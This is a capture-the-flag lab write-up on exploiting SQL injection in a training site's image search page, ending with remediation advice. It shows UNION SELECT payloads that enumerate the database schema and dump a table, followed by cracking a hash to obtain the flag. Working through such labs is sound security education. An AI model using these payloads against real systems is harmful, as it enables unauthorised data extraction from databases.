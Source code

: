 ```
http://{IP_ADDRESS}/?page=searchimg
```

Actually, everything proceeds the same as in the [SQL Injection Member](../SQL%20Injection%20Member/Resources/writeup.md) post.

```
1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database ()
```

We execute this query;

```
ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database () 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database () 
Title: list_images
Url : 
```

Then, since we know the table name;

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

```
[...]
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: id
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: url
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: title
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: comment
Url : list_images
[...]
```

You can query and check each one individually, but we will go straight to the result.

```
1 UNION SELECT id, comment FROM list_images
```

```
ID: -1 UNION SELECT id, comment FROM list_images 
Title: An image about the NSA !
Url : 1

ID: -1 UNION SELECT id, comment FROM list_images 
Title: There is a number..
Url : 2

ID: -1 UNION SELECT id, comment FROM list_images 
Title: Google it !
Url : 3

ID: -1 UNION SELECT id, comment FROM list_images 
Title: Earth!
Url : 4

ID: -1 UNION SELECT id, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
```

We checked what this hash might be using the website we used in our previous project. You can use tools like `hashid` or any hash finder if you prefer.

```
https://www.dcode.fr/
```

We had it automatically analyzed and saw it was MD5, and when decrypted:

`albatroz`

```
 ~  echo -n "albatroz" | sha256sum

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```

## How to fix

-   Use Prepared Statements. Data received from users is not directly included in SQL queries. Instead, data is bound to the query as parameters and processed securely by the database engine, which prevents SQL Injection attacks.

-   Restrict SQL account permissions to limit possible damage in case of an attack.

-   Hide error messages, even though this doesn't directly prevent SQL injection.

-   You can filter user inputs.

-   Use WAF (Web Application Firewall).